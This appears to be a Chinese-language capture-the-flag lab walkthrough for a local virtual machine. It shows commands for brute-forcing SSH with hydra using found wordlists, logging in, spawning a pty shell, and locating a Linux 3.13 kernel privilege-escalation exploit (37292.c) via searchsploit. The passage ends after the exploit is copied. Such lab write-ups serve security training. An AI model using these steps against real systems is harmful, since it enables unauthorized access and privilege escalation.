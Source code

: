 > 可以利用kali的文件解析命令获取线索，这里我使用strings命令

    strings roflmao
    

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230618234523484-682059738.png)

> 得到了一堆提示，其中有一段英文提示Find address 0x0856BF to proceed，查找0x0856BF这个地址，再次利用浏览器访问http://192.168.31.35/0x0856BF查看

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230618234810064-1214526353.png)

> 又是一个目录，一个套着一个，这谁猜得到哦...  
> 查看两个目录，发现了是一个用户名字典和密码字典

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230618235732767-116170088.png)

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230618235750803-800359413.png)

> 到这突然意识到，应该是ssh的用户和密码，再次使用hydra爆破ssh端口

    hydra -L which_one_lol.txt -p Pass.txt  192.168.31.35  ssh
    
    

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619000602581-623474273.png)

> 一开始使用的是密码文本的参数-P 但是多次爆破均没用，然后换了-p发现密码居然是Pass.txt，又是一个坑  
> 登录ssh

    ssh overflow@192.168.31.35
    Pass.txt
    

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619000903541-80161372.png)

> 直接获取到webshell了，接着就是提权getshell

    使用python获取linux框架shell
    python -c 'import pty;pty.spawn("/bin/bash")'
    

> 开始内网信息收集，查看内核版本信息

    cat /proc/version
    

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619001438368-1276391845.png)

> 发现是Linux ubuntu 3.13.0版本，老规矩，浏览器搜索漏洞poc或者使用kali的searchsploit命令查看poc脚本  
> 这里为了方便演示，我使用searchsploit命令

    searchsploit Linux ubuntu 3.13.0
    

![](https://img2023.cnblogs.com/blog/2913000/202306/2913000-20230619001728621-277009320.png)

> 使用第一个c脚本，先将脚本复制到/root下方便操作，再者使用cat查看脚本如何使用

    find / -name 37292.c
    cp /usr/share/exploitdb/exploits/linux/local/37292.c 37292.c
    ls
    cat 37292.c
    